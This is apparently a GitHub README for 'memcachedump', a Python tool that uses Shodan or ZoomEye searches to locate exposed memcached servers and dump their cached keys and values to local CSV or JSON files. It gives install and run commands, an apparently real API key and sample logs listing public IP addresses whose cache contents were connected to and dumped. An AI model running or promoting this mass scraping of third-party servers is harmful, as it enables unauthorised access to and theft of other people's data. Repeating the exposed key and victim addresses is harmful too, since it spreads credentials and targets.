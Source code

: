 ![memcachedump Infographic](https://github.com/JLospinoso/memcachedump/raw/master/memcachedump.png)

`memcachedump` is a tool for dumping the cache contents of exposed memcached servers into local text files.

You'll need Python 3 and a [Shodan API Key](https://developer.shodan.io/api) or a [ZoomEye Account](https://www.zoomeye.org/).

# Running the tool:

```
> python mcd.py --help
usage: mcd.py [-h] [--key KEY] [--email EMAIL] [--password PASSWORD] [--out OUT] [--json]

Scrape data from memcached servers.

optional arguments:
  -h, --help           show this help message and exit
  --key KEY            Shodan API key.
  --email EMAIL        ZoomEye Email
  --password PASSWORD  ZoomEye Password
  --out OUT            Output directory for caches.
  --json               Output as JSON. (Default: CSV)
```

You must supply your Shodan API `--key` or ZoomEye Credentials `--email xyz@xyz.com --password xyz`. 

Optionally, you can specify an `--out` directory for the text files. By default, `mcd` writes to `./out`.

You can also specify `--json` output. By default, writes a CSV file.

# Example usage
<hr>

```
> git clone git@github.com:JLospinoso/memcachedump.git
> cd memcachedump
> pip3 install shodan
```

# Using Shodan API Key
```
> python3 mcd.py --key kpVD7oF01vn1I9q6AfqGeqA2wkqJu9up
Results found: 108877
[ ] Found memcached server at IP: 115.159.38.63
[ ] Found memcached server at IP: 37.220.12.242
[ ] Found memcached server at IP: 115.182.69.234
[ ] Found memcached server at IP: 37.187.205.112
[ ] Found memcached server at IP: 65.175.106.142
[ ] Found memcached server at IP: 217.112.131.172
[ ] Found memcached server at IP: 43.246.216.225
[ ] Found memcached server at IP: 123.30.189.230
...
[ ] Connecting to 115.159.38.63.
[ ] Found 5 key lengths at 115.159.38.63.
[ ] Found 5 keys at 115.159.38.63.
[-] Error connecting to 115.159.38.63: 'utf-8' codec can't decode byte 0xff in position 36: invalid start byte
[ ] Connecting to 37.220.12.242.
[ ] Found 1 key lengths at 37.220.12.242.
[ ] Found 1 keys at 37.220.12.242.
[ ] Dumped 1 key values from 37.220.12.242.
[+] Wrote CSV to out\37.220.12.242.csv
[ ] Connecting to 115.182.69.234.
[ ] Found 1 key lengths at 115.182.69.234.
[ ] Found 1 keys at 115.182.69.234.
[ ] Dumped 1 key values from 115.182.69.234.
[+] Wrote CSV to out\115.182.69.234.csv
[ ] Connecting to 37.187.205.112.
[ ] Found 1 key lengths at 37.187.205.112.
[ ] Found 2 keys at 37.187.205.112.
...
```

# Using ZoomEye Credentials
```
> python3 mcd.py --email xyz@xyz.com --password xyz123abc
[ ] Found memcached server at IP: 115.159.38.63
[ ] Found memcached server at IP: 37.220.12.242
[ ] Found memcached server at IP: 115.182.69.234
[ ] Found memcached server at IP: 37.187.205.112
[ ] Found memcached server at IP: 65.175.106.142
[ ] Found memcached server at IP: 217.112.131.172
[ ] Found memcached server at IP: 43.246.216.225
[ ] Found memcached server at IP: 123.30.189.230
...
[ ] Connecting to 115.159.38.63.
[ ] Found 5 key lengths at 115.159.38.63.
[ ] Found 5 keys at 115.159.38.63.
[-] Error connecting to 115.159.38.63: 'utf-8' codec can't decode byte 0xff in position 36: invalid start byte
[ ] Connecting to 37.220.12.242.
[ ] Found 1 key lengths at 37.220.12.242.
[ ] Found 1 keys at 37.220.12.242.
[ ] Dumped 1 key values from 37.220.12.242.
[+] Wrote CSV to out\37.220.12.242.csv
[ ] Connecting to 115.182.69.234.
[ ] Found 1 key lengths at 115.182.69.234.
[ ] Found 1 keys at 115.182.69.234.
[ ] Dumped 1 key values from 115.182.69.234.
[+] Wrote CSV to out\115.182.69.234.csv
[ ] Connecting to 37.187.205.112.
[ ] Found 1 key lengths at 37.187.205.112.
[ ] Found 2 keys at 37.187.205.112.
...
```

All results output to the `out` directory.